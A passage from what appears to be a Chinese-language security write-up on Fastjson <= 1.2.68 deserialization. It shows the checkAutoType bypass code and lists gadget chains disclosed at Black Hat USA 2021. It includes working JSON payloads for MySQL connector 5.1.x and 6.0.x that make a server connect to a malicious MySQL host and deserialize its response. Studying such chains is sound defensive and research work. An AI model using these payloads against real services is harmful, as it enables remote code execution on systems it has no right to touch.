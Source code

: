 
`ParseConfig` 的 `checkAutoType` 部分代码示例，只要第二个 `@type` 继承了 第一个 `@type` 即可触发。

```java
if (expectClass != null) {
    if (expectClass.isAssignableFrom(clazz)) {
        TypeUtils.addMapping(typeName, clazz);
        return clazz;
    } else {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }
}
```


## Fastjson <= 1.2.68 利用链

在 black hat usa 2021 议题上，腾讯玄武实验室披露了四条利用链，分别是：
1. Mysql connector RCE
2. Apache commons io read and write files
3. Jetty SSRF
4. Apache xbean-reflect RCE

其中 Mysql 的利用链是因为可以构造任意 URL 使用 JDBC 连接，连接至恶意 Mysql 服务器，服务器返回的内容被 JDBC 反序列化。

Mysql connector 5.1.x
```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.jdbc.JDBC4Connection",
    "hostToConnectTo": "mysql.host",
    "portToConnectTo": 3306,
    "info": {
        "user": "user",
        "password": "pass",
        "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
        "autoDeserialize": "true",
        "NUM_HOSTS": "1"
    },
    "databaseToConnectTo": "dbname",
    "url": ""
}
```

• Mysql connector 6.0.2 or 6.0.3
```
{
    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
    "proxy": {
        "connectionString": {
            "url": "jdbc:mysql://localhost:3306/foo?allowLoadLocalInfile=true"
        }
    }
}
```
